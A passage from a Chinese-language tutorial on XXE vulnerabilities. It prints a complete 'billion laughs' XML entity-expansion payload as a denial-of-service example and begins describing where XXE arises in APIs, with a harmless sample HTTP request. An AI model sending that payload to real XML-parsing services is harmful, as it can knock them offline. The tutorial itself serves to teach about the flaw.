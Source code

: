 

#### 2. 利用 XXE 进行 DOS 攻击

   **示例代码：**

   ```xml
   <?xml version="1.0"?>
        <!DOCTYPE lolz [
        <!ENTITY lol "lol">
        <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
        <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
        <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
        <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
        <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
        <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
        <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
        <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
        ]>
        <lolz>&lol9;</lolz>
   ```



   ## 五、真实的 XXE 出现在哪

   我们刚刚说了那么多，都是只是我们对这个漏洞的理解，但是好像还没说这种漏洞出现在什么地方

   如今的 web 时代，是一个前后端分离的时代，有人说 MVC 就是前后端分离，但我觉得这种分离的并不彻底，后端还是要尝试去调用渲染类去控制前端的渲染，我所说的前后端分离是，后端 api 只负责接受约定好要传入的数据，然后经过一系列的黑盒运算，将得到结果以 json 格式返回给前端，前端只负责坐享其成，拿到数据json.decode 就行了（这里的后端可以是后台代码，也可以是外部的api 接口，这里的前端可以是传统意义的前端，也可以是后台代码）

   **那么问题经常就出现在 api 接口能解析客户端传过来的 xml 代码，并且直接外部实体的引用**，比如下面这个

   ### **实例一：模拟情况**

   **示例代码：**

   ```xml
   POST /vulnerable HTTP/1.1
   Host: www.test.com
   User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
   Accept-Language: en-US,en;q=0.5
   Referer: https://test.com/test.html
   Content-Type: application/xml
   Content-Length: 294
   Cookie: mycookie=cookies;
   Connection: close
   Upgrade-Insecure-Requests: 1
   
   <?xml version="1.0"?>
   <catalog>
      <core id="test101">
         <author>John, Doe</author>
         <title>I love XML</title>
         <category>Computers</category>
         <price>9.99</price>
         <date>2018-10-01</date>
         <description>XML is the best!</description>
      </core>
   </catalog>
   ```
